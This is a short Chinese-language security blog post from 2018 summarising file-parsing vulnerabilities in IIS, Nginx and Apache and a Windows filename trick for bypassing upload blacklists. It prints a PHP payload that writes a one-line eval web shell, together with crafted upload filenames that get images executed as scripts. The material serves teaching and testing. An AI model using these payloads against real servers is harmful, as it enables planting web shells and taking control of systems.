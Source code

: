 ```yaml
---
layout: post
title:  解析漏洞
date:   2018-10-19 17:23:03 +0800
img:
description: 解析漏洞
categories: web安全
---
```


* 目录
{:toc}

## IIS 5.x/6.0解析漏洞

1. 目录解析

    /xx.asp/xx.jpg

2. 文件解析

    xx.asp;.jpg

    还有IIS6.0 默认的可执行文件除了asp还包含这三种

    /shell.asa

    /shell.cer

    /shell.cdx

## IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞
在默认Fast-CGI开启状况下,上传一个名字为test.jpg，内容为
<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>
的文件，然后访问test.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## Nginx <8.03 空字节代码执行漏洞

影响版本:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

xxx.jpg%00.php

来执行其中的代码

## Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 shell.php.a.rar “.a”和”.rar” 这两种后缀是apache不可识别解析,apache就会把shell.php.a.rar解析成php

## 其他

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,利用windows的这种特性，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。